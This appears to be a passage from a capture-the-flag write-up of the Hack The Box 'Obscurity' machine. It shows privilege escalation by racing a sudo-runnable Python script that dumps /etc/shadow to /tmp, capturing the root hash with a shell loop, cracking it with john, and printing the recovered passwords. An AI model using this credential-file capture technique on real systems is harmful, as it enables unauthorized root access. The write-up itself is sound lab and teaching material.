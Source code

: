 Got `SecThruObsFTW` maybe it will be robert's password.

![Untitled](/img/htb-obscurity/12.png)

## Privilege Escalation

Like always I started with `sudo -l`

![Untitled](/img/htb-obscurity/13.png)

So we can run `[BetterSSH.py](http://betterssh.py)` as Root without password.

Let's Check the script, 

```python
session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break
```

The script first checks the user we give in `/etc/shadow` if the user is correct, It moves to the password we gave.
While Checking it writes the `/etc/shadow` in `/tmp/SSH` and then it cross-checks with what we gave.
So we need to capture the hash at that time!

So I opened 2 terminal one which runs the script and another to capture the hash in `/tmp/SSH`
We need root password so I gave root as username and a random password.

```bash
while sleep 0.1; do cat /tmp/SSH/* 2>/dev/null; done
```

> sleep - delay for a specified amount of time

![Untitled](/img/htb-obscurity/14.png)

Got the hash.

I cracked the hash using john

![Untitled](/img/htb-obscurity/15.png)

`root : mercedes`

![Untitled](/img/htb-obscurity/16.png)

We are now root!!